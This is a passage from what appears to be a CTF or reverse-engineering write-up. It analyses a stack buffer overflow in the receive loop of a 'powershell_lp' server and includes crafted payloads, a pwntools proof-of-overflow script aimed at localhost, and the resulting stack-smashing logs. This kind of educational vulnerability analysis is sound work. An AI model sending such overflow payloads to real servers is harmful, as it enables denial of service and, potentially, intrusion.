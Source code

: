 Using the `length` received from the `Content-Length` header previously, this function will iteratively receive from the open socket up to the `length` number of bytes into a `0x1000` byte buffer until at receives `length` bytes (or more).  Here is where the vulnerability lies.  We can see that the `recvfrom` call is always accepting up to `length` bytes to put into the buffer.  If we craft an exploit that will send at least two payloads, we can potentially overflow the `0x1000` byte buffer.  Here's how:

Let's say for the first iteration, we send the following payload:

```
Content-Length: 4096\r\n\r\n[... 3840 "a" characters ...]
```

After sending this, the `4096` byte buffer would be filled with `3840` bytes (all "a"s).  Because we told the LP that it should be expecting `4096` bytes, the loop will go through another iteration.  If we send it another payload that looks like this:

```
[... 300 "b" characters ...]
```

our `4096` byte buffer would be overflowed with `4140` bytes.  Let's validate this by running a small proof of overflow script against our running LP:

```python
from pwn import *

if __name__ == '__main__':
    payload1 = "Content-Length: 4096\r\n\r\n{}".format('a' * 3840).encode()
    payload2 = ('b' * 300).encode()

    p = remote("localhost", 8080)

    p.send(payload1)
    time.sleep(0.15)

    p.send(payload2)
    p.recvuntil(b"\r\n\r\n").decode()
    r = p.recvall()
    p.close()
```

Executing the script yields some interesting results.  `ps_server.log` has the following new entry:

```bash
Child 12821 handling connection from 127.0.0.1:39710
Child 12821 exited due to signal 6
```

And from the LP stderr, we see the following:

```bash
$ ./powershell_lp
Server started port 8080
*** stack smashing detected ***: <unknown> terminated
```

Looking back at Ghidra, we can see where this failure is likely occurring.  The function that calls `receiveAllBytes` (the function at `0x109684`) has a stack canary check, which overflowing our buffer likely triggered:
